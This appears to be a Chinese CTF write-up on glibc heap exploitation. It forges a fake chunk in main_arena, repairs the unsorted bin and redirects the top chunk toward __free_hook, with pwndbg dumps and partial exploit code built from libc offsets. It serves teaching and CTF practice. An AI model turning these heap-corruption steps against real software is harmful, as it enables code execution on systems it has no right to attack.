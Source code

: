 首先在main_arena中伪造一个0x70的chunk，将main_arena+48处的指针指向这个fakechunk。下一次申请0x70的chunk就会控制这个chunk。

![image-20200503105559671](/Users/migraine/Library/Application Support/typora-user-images/image-20200503105559671.png)

![y3DeY9](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/y3DeY9.png)

下图是main_arena处的空间，我们要在main_arena+8伪造一个0x70的fake_chunk。借助这块内存了来修改top_chunk以及恢复unsortbin链。

```
pwndbg> x/20xg &__malloc_hook+1
                                                                              0x7fa801080b18: 0x0000000000000000      0x0000000000000000
<main_arena+8>:  0x0000000000000000      0x0000000000000070 <--fake chunk
<main_arena+24>: 0x3030303030303030      0x3030303030303030
<main_arena+40>: 0x3030303030303030      0x3030303030303030
<main_arena+56>: 0x3030303030303030      0x3030303030303030                                                                 
0x7fa801080b68 <main_arena+72>: 0x3030303030303030      0x3030303030303030
0x7fa801080b78 <main_arena+88>: 0x3030303030303030   <--top chunk   0x3030303030303030  
0x7fa801080b88 <main_arena+104>:        0x3030303030303030      0x303030303030 <--unsort bin
0x7fa801080b98 <main_arena+120>:        0x3030303030303030      0x00007fa80108                                                                  0x7fa801080ba8 <main_arena+136>:        0x00007fa801080b98      0x00007fa801080b98
```

修复unosortbin 填充结构:8xchunk+fake_top_chunk+chunk+*(main_area+0x88)x2

![5lpWBm](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/5lpWBm.png)

修复了unsortbin之后

![MPffgg](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/MPffgg.png)

修改代码(不是最终的)

```
fake_chunk=0x39bb20+libc+8 #在main_area构建一个fake chunk
main_aren_88=0x39bb78+libc #用于修复unsortbin
add(0x68,b"\x00"*(19+8)+p64(0)*2+p64(0)+p64(0x70)*4+p64(fake_chunk)) #构造fake_chunk
add(0x68,p64(0)*8+p64(0)+p64(0)+p64(main_aren_88)*2) #申请这个fake_chunk，并且修复unsortbin
```

在free_hook前面找到一个符合伪造top_chunk的条件,然后覆盖main_arena+0x88指向这个fake_top_chunk，之后只需要不断申请chunk，就能申请到free_hook的地址。、

例如，这里的initial+16的size位置正好包含一个很大的值，可以用来伪造fake_top_chunk

```
free_hook=3790760+libc
fake_top_chunk_free_hook-0xb58
```

![oO3ED8](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/oO3ED8.png)

申请一次后的效果，会一路向下申请chunk。
